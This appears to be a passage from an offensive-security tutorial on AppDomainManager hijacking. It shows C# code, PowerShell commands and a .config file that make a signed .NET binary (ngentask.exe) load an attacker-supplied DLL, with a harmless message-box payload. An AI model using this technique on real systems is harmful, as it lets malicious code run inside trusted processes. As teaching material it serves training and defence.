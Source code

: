 
There are also methods of forcing .NET applications into loading DLLs regardless of the search order.  [Startup hooks](https://rastamouse.me/net-startup-hooks/) can be utilised for apps written in .NET Core 3.1 or higher.  Here, I'll demonstrate how to use a custom [AppDomainManager](https://learn.microsoft.com/en-us/dotnet/api/system.appdomainmanager?view=netframework-4.8.1), which works for apps written in .NET Framework.  This requires us to write a class that inherits from _AppDomainManager_, and compile it to a .NET DLL.  The malicious code can go in the class constructor or one of the virtual methods that you can override.

```c#
using System;
using System.Windows.Forms;

namespace AppDomainHijack;

public sealed class DomainManager : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
        MessageBox.Show("Hello World", "Success");
    }
}
```

This DLL needs to be in the same directory as the .NET app that we want to have it loaded into.  There are over 100 .NET assemblies installed by default on a Windows system, including NGenTask used in the previous example, which we can just copy into the current directory.

```powershell
PS C:\Users\Attacker> cp C:\Windows\WinSxS\amd64_netfx4-ngentask_exe_b03f5f7f11d50a3a_4.0.15805.0_none_d4039dd5692796db\ngentask.exe ngentask.exe

PS C:\Users\Attacker> cp C:\Tools\AppDomainHijack\bin\Debug\AppDomainHijack.dll domainManager.dll
```

There are two ways to have the app load the DLL.  The first is via two environment variables called `APPDOMAIN_MANAGER_ASM` and `APPDOMAIN_MANAGER_TYPE`.

```powershell
PS C:\Users\Attacker>$env:APPDOMAIN_MANAGER_ASM = 'AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null'
PS C:\Users\Attacker>$env:APPDOMAIN_MANAGER_TYPE = 'AppDomainHijack.DomainManager'
```

>The type and assembly names must be fully qualified.

Once the variables are in place, executing the application will cause it to load the DLL.

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/e8159f4a8e71f91ce5aaf6cf2a30aa92.png)

The other method is to use the `appDomainManagerAssembly` and `appDomainManagerType` elements in a `.config` file.  The filename must be prefixed with the application name, e.g. `ngentask.exe.config`.

```xml
<configuration>
   <runtime>
      <appDomainManagerAssembly value="AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />  
      <appDomainManagerType value="AppDomainHijack.DomainManager" />  
   </runtime>
</configuration>
```
